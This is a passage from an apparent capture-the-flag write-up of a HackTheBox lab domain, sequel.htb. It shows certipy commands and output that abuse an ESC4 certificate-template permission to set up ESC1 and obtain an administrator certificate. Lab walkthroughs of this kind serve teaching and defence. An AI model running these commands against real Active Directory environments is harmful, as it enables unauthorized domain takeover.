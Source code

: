 ```bash
    Extended Key Usage                  : Client Authentication
                                          Server Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 1000 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : SEQUEL.HTB\Enterprise Admins
        Full Control Principals         : SEQUEL.HTB\Cert Publishers
        Write Owner Principals          : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
                                          SEQUEL.HTB\Administrator
                                          SEQUEL.HTB\Cert Publishers
        Write Dacl Principals           : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
                                          SEQUEL.HTB\Administrator
                                          SEQUEL.HTB\Cert Publishers
        Write Property Principals       : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
                                          SEQUEL.HTB\Administrator
                                          SEQUEL.HTB\Cert Publishers
    [!] Vulnerabilities
      ESC4                              : 'SEQUEL.HTB\\Cert Publishers' has dangerous permissions
```

We can use `certipy` again to overwrite the configuration to make it vulnerable to `ESC1`.

```bash
┌──(dax㉿betty)-[~]
└─$ certipy-ad template -username ca_svc@sequel.htb -password Password123! -template DunderMifflinAuthentication -save-old
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Saved old configuration for 'DunderMifflinAuthentication' to 'DunderMifflinAuthentication.json'
[*] Updating certificate template 'DunderMifflinAuthentication'
[*] Successfully updated 'DunderMifflinAuthentication'
```

With the certificate template now vulnerable, we can exploit `ESC1` to make a request for a certificate that accepts an arbitrary user principal name (like `administrator` for example). 

```bash
certipy-ad req -username ca_svc@sequel.htb -password Password123! -ca sequel-DC01-CA -target-ip 10.10.11.51 -template DunderMifflinAuthentication -upn administrator@sequel.htb -dns dc01.sequel.htb -ns 10.10.11.51 -subject CN=Administrator,CN=Users,DC=SEQUEL,DC=HTB
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 6
[*] Got certificate with subject: DC=SEQUEL,DC=HTB,CN=Administrator,CN=Users
[*] Got certificate with multiple identifications
    UPN: 'administrator@sequel.htb'
    DNS Host Name: 'dc01.sequel.htb'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator_dc01.pfx'
```
